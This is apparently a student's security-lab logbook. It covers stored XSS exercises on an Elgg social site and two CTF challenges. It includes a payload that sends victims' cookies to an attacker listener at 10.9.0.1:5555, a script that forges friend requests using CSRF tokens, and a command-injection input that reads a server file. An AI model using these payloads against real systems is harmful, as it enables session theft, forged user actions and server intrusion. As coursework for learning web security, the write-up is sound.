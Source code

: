 # Cross Site Scripting - XSS

## Task 1
If we loggin as Alice and go edit her profile, if we insert the text: <script>alert(’XSS’);</script>
on a field such as "Brief description" and save the changes made, that will launch a popup window with the message "XSS" everytime someone sees Alice's profile (see "logbook10 task1.png"). This also means that the input field on the "Brief description" (used in our case) does not check HTML injection.

## Task 2
This task is similar to the first one, but this time we are displaying the user's cookies on the popup window and not just some text. By doing the same thing as in the task 1, but by placing the text: <script>alert(document.cookie);</script>
we can achieve this result (see "logbook10 task2.png").

## Task 3
The previous task we printed the user's cookies on a popup window, but only the user could see that. On this task we used an "image" with a src parameter that the browser will look for by a GET request. That request will be redirected to the attacker (us) since we inserted our server on the src attribute. Since we also attached an additional text to get information about the cookies, basically the browser used by the victim (Alice in our case) is going to send a GET Request to a server (10.9.0.1, more specifically to the port 5555) that our machine is listenning to. So, by placing the text:
<script>document.write('<img src=http://10.9.0.1:5555?c='+ escape(document.cookie) + '   >');</script>
in an input field like the "Brief description" (as in the previous tasks) we can get Alice's cookies displayed in our machine (see "logbook10 task3.png").

## Task 4
In this task we want to make everyone that sees Samy's profile his friend. To achieve this we needed to insert the text:
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();}</script>
on the "About me" field on Samy's profile. On the text above what we needed to change was the 'sendurl' variable. The value of that variable basically is the url that we get when adding a friend (using the HTTP Header Live extension in our browser, see "logbook10 task4.png"). This url comes with some defined tokens that we must replace by the ones gotten by our script, so that the url has the correct updated tokens, that's why we keep the initial part of the url and then add the 'ts' and 'token' variables. Additional note: we can see that Samy's id is 59. If we wanted to do this for other users we just need to change the number on the url after "friend=" (for example, Alice is 56 and Charlie is 58).

## CTF 10

### Challenge 1

The form is vulnerable to XSS. We can inject code that clicks the
give flag by user:
`<script>document.getElementById("giveflag").click();</script>`


### Challenge 2
##### Firstly we start by analysing what features are available to non-authenticated users:
 - Login
 - Speed Report
 - Ping a Host
##### We tried to blindly SQL inject the login form, with common used SQL injection commands but we were not successfull.
##### We then proceeded to try to explore the ping a host system. We attempted to ping google.com
##### By observing the results, we can assume that the server is probably using a terminal to run the unix command ping followed by the input that we give it.
##### After knowing this we can now realize that the solution will come from using the cat command in this terminal. So we made use of && for an additional command after the ping: `(ping) google.com && cat /flags/flag.txt`


